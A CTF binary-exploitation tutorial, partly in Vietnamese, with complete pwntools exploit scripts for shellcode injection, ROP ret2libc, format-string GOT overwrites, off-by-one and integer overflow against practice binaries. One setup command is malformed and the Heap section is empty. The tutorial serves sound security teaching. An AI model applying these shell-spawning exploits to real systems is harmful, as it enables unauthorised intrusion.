# Đôi điều về Pwnable/Pwn

## 1. Lịch sử Pwn

​	Theo user Tactical Ghost trên Urban Dictionary: "pwn (v.) /pəʊn/ có nghĩa là át chế đối phương (trong game, v.v.)". Nguồn gốc của từ Pwn được cho là ở thời mà người người chơi WarCraft, nhà nhà chơi WarCraft, khi mà một người thiết kế map đã nhầm "Own" thành "Pwn" do "O" sát với "P" trên bàn phím QWERTY. Một thông báo đáng lẽ là "player has been owned" đã bị lỗi thành "player has been pwned".

## 2. Pwnable/Pwn trong CTF và ứng dụng thực tế

​	Mục đích thông thường của pwn: Binary exploitation -> Privilege escalation

​	Trong CTF, pwn đa phần chỉ tập trung vào binary exploitation, get shell máy victim, tìm kiếm flag và submit. Môi trường mà người chơi phải tiến hành pwn thường sẽ là linux. 

​	Tập lệnh trong binary hầu hết là intel x86, x86-64, một vài trường hợp có thể binary sử dụng arm instructions. 

​	Ứng dụng của pwn trong thực tế:

- Khai thác lỗi kernel: các máy chủ sử dụng nhân linux,...

- Khai thác lỗi phần mềm: sudo, afpd,... 

## 3. Kiến thức nền

- Khả năng đọc hiểu code C (các hàm thông dụng - gets, printf, scanf, read, write, mmap, calloc, malloc, cấu trúc dữ liệu - đặc biệt là con trỏ)
- Khả năng đọc hiểu assembly (i386, x86-64, arm64, mips64el,...)
- Khả năng code python và sử dụng các thư viện hỗ trợ (pwntools)
- Khả năng debug dùng các công cụ debugger như gdb (plugin pwndbg, gef, peda), windbg, x64dbg,..., kết hợp đọc code sử dụng công cụ disasembler: ida, ghidra, binary ninja,... 
- Kiến thức về dịch ngược, các lỗ hổng cơ bản và cách khai thác.

## 4. Setup hệ thống

- Ubuntu WSL2 | Máy ảo Ubuntu | Máy vật lý Ubuntu (Các máy chủ challenge run app thường sẽ chạy hđh Ubuntu)

- Python 3

- Thư viện pwntools

  `sudo apt-get update`
  `sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential`
  `sudo python3 -m pip install --upgrade pip`
  `sudo python3 -m pip install --upgrade pwntools`

- pwninit

  `sudo apt-get openssl liblzma-dev pkg-config`
  `git clone https://github.com/io12/pwninit`
  `cd pwninit`
  `cargo install pwninit`

- one_gadget

- Một số dependency cho foreign architecture

```
# i386
sudo apt install libc6-i386
# qemu-user
sudo apt install qemu-user
sudo mkdir /etc/qemu-binfmt
# ARMv5
sudo apt install libc6-armel-cross
sudo ln -s /usr/arm-linux-gnueabi /etc/qemu-binfmt/arm
# MIPS
sudo apt install libc6-mipsel-cross
sudo ln -s /usr/mipsel-linux-gnu /etc/qemu-binfmt/mipsel
```

- Plugin pwndbg

## 5. Một số dạng thường gặp

### Shellcode



Use Ghidra to Decompile:




In `run()`, enter 80-byte `local_58` (no error because `local_58` is initialized to 80 bytes), then enter 544-byte `local_218` (there is a buffer overflow error because `local_218` is only initialized to 524 bytes).



`checksec` we see that `NX` is turned off => Stack can be executed => Shellcode when put on Stack will be executed.

When debugging, enter `local_218` of 544 bytes:



See that at `ret` the address has been overwritten by `local_218` => has control over the program.

To execute Shellcode, we need to let the program return a pointer to that Shellcode. `RAX` is pointing to the `local_58`, we use `RAX` to point to the Shellcode. Then `ret` to a gadget to call that Shellcode.

Using gadget `call rax;`


Using Shellcode of the function `execve('/bin/sh', 0, 0)` to get the shell of the program.



Next, we need to find the offset to ret to overwrite with the address of `call rax;`



Using ```cyclic -l``` finds an offset of 536.

Exploit:
```
#!/usr/bin/ python3

from pwn import*

context.binary = exe = ELF('./bof5', checksec=False)
p = process(exe.path)

offset = 536

shellcode = asm(
    '''
    mov rax, 0x3b                   # rax = 0x3b
    mov rdi, 29400045130965551      # 29400045130965551 = '/bin/sh'
    push rdi                        
    mov rdi, rsp                    # rdi trỏ tới chuỗi '/bin/sh'
    xor rsi, rsi                    # rsi = 0
    xor rdx, rdx                    # rdx = 0

    syscall                         
    ''', arch='amd64')              

call_rax = 0x0000000000401014

p.sendafter(b'> ', shellcode)

p.sendafter(b'> ', b'A' * offset + p64(call_rax))

p.interactive()
```


---

### Return Oriented Programming (ROP)



Use Ghidra to Decompile:



Here there is a buffer overflow error in the `read` function when `local_58` is initialized to 80 but `read` allows input up to 120.


We see here that there is no function that can create a shell, so we have to find a way to leak `libc's address`. Because when we get the address of libc, we can find the address of the `system` function and execute the function `system('/bin/sh')` to create a shell.



We see that the address of binary is static and that of libc is dynamic. So we have to find a way to leak `libc's base address`.



Because there is `no canary`, buffer overflow can be used to `return to libc`.



First, we find the offset of `88`.

There are 2 concepts here:
```
GOT: contains the addresses of libc functions. (0x403fd8)
PLT: executes the function contained in GOT. (0x7ffff7e23bd0)
```



Next, in `puts("Say something: ")`, we see that only one parameter is needed to print the data of that parameter. So if we put the address `puts@got` into RDI (first parameter) and then execute `puts@plt`, we will leak the address of libc.

We use `ropper` to find a gadget to control RDI:



And that is `0x0000000000401263: pop rdi; ret;`

```
offset = 88
pop_rdi = 0x0000000000401263

payload  = b'A' * offset + p64(pop_rdi) + p64(exe.got.puts) + p64(exe.plt.puts)
payload += p64(exe.sym.main)
sla(b'\n', payload)
```



So we leak 6 address bytes. We see that at the end of the payload there is `exe.sym.main` so that after the leak is complete, the program will run again without ending. Next, we use the 6 leaked bytes to find the libc base address.




```
libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("Leak libc: " + hex(libc_leak))
libc.address = libc_leak - 0x87bd0
log.info("Libc base: " + hex(libc.address))
```

To find the libc base, we use the leaked address subtract the base address while debugging to find the offset of `0x87bd0`. So we get libc base:



When we get the libc base, we get the address of the `system` function and the string `'/bin/sh'` in libc. Final step, get shell:
```
payload  = b'A' * offset + p64(pop_rdi)
payload += p64( next(libc.search('/bin/sh'))) + p64(libc.sym.system)
sl(payload)
```
We have a complete exploit:
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof7', checksec=False)
libc = exe.libc
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
sln = lambda msg, num: sla(msg, str(num).encode())
sn = lambda msg, num: sa(msg, str(num).encode())

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)
# GDB()

### LEAK LIBC ###
offset = 88
pop_rdi = 0x0000000000401263

payload  = b'A' * offset + p64(pop_rdi) + p64(exe.got.puts) + p64(exe.plt.puts)
payload += p64(exe.sym.main)
sla(b'\n', payload)

libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("Leak libc: " + hex(libc_leak))
libc.address = libc_leak - libc.sym.puts
log.info("Libc base: " + hex(libc.address))

### GET SHELL ###
payload  = b'A' * offset + p64(pop_rdi)
payload += p64( next(libc.search('/bin/sh'))) + p64(libc.sym.system)
sl(payload)

p.interactive()
```


---

### Format String



Use Ghidra to Decompile:





We see that there are two gets functions but canary found so we cannot use buffer overflow. However, there is a printf function `printf((char *)((long)&uStack_e9 + 1),local_78);` with format string, which we can use to exploit the program. The `get_flag` function creates a shell, so the goal will be format string to execute this function.

Next, we see that the RELRO part in the checksec is `Partial RELRO`, so we can use format string to overwrite GOT.

> RELRO (Relocation Read-Only) is a protection mechanism in Linux that prevents the exploitation of vulnerabilities related to writing to program symbol tables (such as GOT - Global Offset Table). RELRO is designed to make in-memory symbol tables read-only, reducing the possibility of exploits via function address overwriting.
> 
> * `No RELRO`:
> Do not enable the RELRO mechanism. GOT and symbol tables are not protected, allowing attackers to overwrite addresses in GOT to redirect program execution (hijack control flow).
> * `Partial RELRO`:
> Protects only part of the symbol panels. Only certain areas (like .got.plt) are marked as read-only, but leave other areas (like .plt or .got) writable.
> * `Full RELRO`:
> Protects the entire GOT table and other symbol tables, making them completely read-only after linking is complete. GOT is converted to read-only state by reordering and completing the initialization process before the program begins to execute



It's easy to see that after the `printf` function is the `putchar` function, so we will use format string to overwrite the `putchar@got` address into the `get_flag` function with `%n` and `%c`. Because the binary address is static, we have:

```
putchar@got = 0x404018
get_flag = 0x401349
```

The two addresses above only differ in the last 2 bytes, so we only need to overwrite 2 bytes.

The first step to exploit, need to find the offset. In the first `gets` function, we enter a long string of characters, in the second `gets` function we skip it, and in the `printf` function we see where `printf` will format string with an offset of 112.



After finding the offset, perform format string to overwrite `putchar`. There are 2 ways here: overwrite each byte or overwrite 2 bytes at the same time.

#### First way: Overwrite each byte.

We will divide `0x1349` into 2 parts: `0x49` and `0x13`, overwriting the last part one by one.

```
payload  = b'A'*112
payload += f'%73c%23$hhn'.encode()
payload += f'%202c%24$hhn'.encode()
payload += b'a'
payload += p64(0x404018)
payload += p64(0x404019)
```



```
%73c: Prints 73 characters. 
%23$hhn: Write 1 byte (hhn as writing 1 byte) to the address located at position 23 in the stack (counting from the top of the stack which is the 6th parameter). (Overwrite 0x49 (73 decimal) to 0x404018).

%202c: Prints 202 characters. Now the total printed characters are 202 + 73 = 275. But because it is a byte (0-255), 275 will become 19 (0x13).
%24$hhn: Write 1 byte to the address located at position 24 in the stack. (Overwrite 0x13 to 0x404019).

And payload += b'a' is used to align the stack.
```



#### Second way: Overwrite 2 byte.

```
payload  = b'A'*112
payload += f'%4937c%22$hn'.encode()
payload += b'A' * 4
payload += p64(0x404018)
```



```
%4937c: Prints 4937c characters. 
%22$hn: Write 2 byte (hn as writing 2 byte) to the address located at position 22 in the stack (Overwrite 0x1349 (4937 decimal) to 0x404018).

payload += b'A' * 4 is used to align the stack.
```



#### Third way: Use `fmtstr_payload`.

The `fmtstr_payload` function is a useful feature in the `pwntools` library, used to generate payloads for format string vulnerabilities. This function helps exploit vulnerabilities by writing to specific addresses in memory or reading values ​​from there.
```
payload = b'A' * 112
payload += fmtstr_payload(20,{putchar : get_flag})

assert(len(payload) < (0x158 - 0x78))   
```
```
20: Offset of the parameter in the stack (from top to bottom).
{putchar: get_flag}: Is a dictionary containing address: value pairs, in which:
  putchar: Address to overwrite (usually the address of a function in GOT).
  get_flag: The value will be written to the above address (usually the address of a function or shellcode).

assert(len(payload) < (0x158 - 0x78)): Make sure that the size of the entire payload does not exceed the limit of 224. If the condition is true, the program continues to run normally. If the condition is false (payload exceeds 224 bytes), the program stops and reports an AssertionError. Because if it overflows, it will overwrite the second parameter of printf and will not be format string.
```


---

### Off-By-One

Decompile with Ghidra:






When run, the program prints an FYI value, and because of `PIE`, each time we run we receive a different FYI value.



FYI the value that the program prints is the address of the `init()` function. So we can leak the base value of the binary from the `init()` function address.



```
p.recvuntil(b'FYI: ')
fyi = p.recv(10)
exe.base = int(fyi,16) - exe.sym.init
log.info('Binary Base: ' + hex(exe.base))
```



The `gets_h` function contains the `system` function, so the goal is to control the program to get to that `gets_h` function. So it is necessary to change the `ret` address of the `main` function to the `gets_h` function address.



After entering the input, we can see:

At `main+108`, the value `ebp - 8` will pop into `ecx` (`0xffffca80`), then `ret` will be at address `ecx - 4` (0xffffca7c). So if we can control the value of `ecx`, we can control `ret`.

`read` allows to enter up to 17 bytes so we can completely control `ecx` with the 17th byte. (`a0`). So just overwrite `a0` with `80` and we will return to the `gets_h` function.

However, because the program turns on `PIE`, the stack address will also change after each run, so we cannot know the exact value of that overwritten byte. Therefore, the ratio will be 1/16.

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./obo_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)
ld = ELF("./ld-linux.so.2", checksec = False)

context.binary = exe
p = process(exe.path)
# p = remote("188.166.252.88", 13373)

### LEAK LIBC ###
p.recvuntil(b'FYI: ')
fyi = p.recv(10)
exe.base = int(fyi,16) - exe.sym.init
log.info('Binary Base: ' + hex(exe.base))

### GET FLAG ###
flag = exe.sym.gets_h + exe.base
payload = b'A' * 12 + p32(flag) + b'\x80'       # b'\x80' - select any byte
p.sendlineafter(b'2024: ', payload)

p.interactive()
```

---

### Integer Overflow & Signal

> Integers have a maximum size, and if you go past the maximum size, it becomes a small number (either negative or zero).
>
> For example, a single (unsigned) byte has a maximum value of 255. Adding one to the byte will set the value to 0, not 256.
>
> The largest (unsigned) values for ints (4 bytes) and longs (8 bytes) are 4294967295 and 18446744073709551615 respectively. (roughly 2^32 and 2^64).

```
#include <stdio.h>
#include <string.h>
// gcc -g -o chal chal.c

int main() {
    puts("Welcome to our user email sweepstake!");
    puts("Only the first user gets the flag.");

    unsigned char count = 5;  
    char email[32];

    while (1) {
        puts("Enter email: ");
        fgets(email, 31, stdin);
        email[strcspn(email, "\n")] = 0;

        if (count == 0) {
            printf("Congrats %s, you are the first user (count=%d).\n", email, count);
            puts("flag{win}");
            return 0;
        } else {
            printf("Sorry %s, you are not the first user (count=%d). No flag for you.\n", email, count);
        }

        count++;
    }
}
```

We just send input until the `count` wraps around to 1.

```
#!/usr/bin/env python3

from pwn import *

context.binary = exe = ELF("./chal", checksec = False)
p = process(exe.path)
c = 0
while True:
    p.sendlineafter(b"email: \n", b'D')
    line = p.recvline()
    print(f"{line=}")
    c = c + 1
    print(c)
    if b"Congrats" in line:
        p.interactive()
        exit(0)
```


---
### Heap
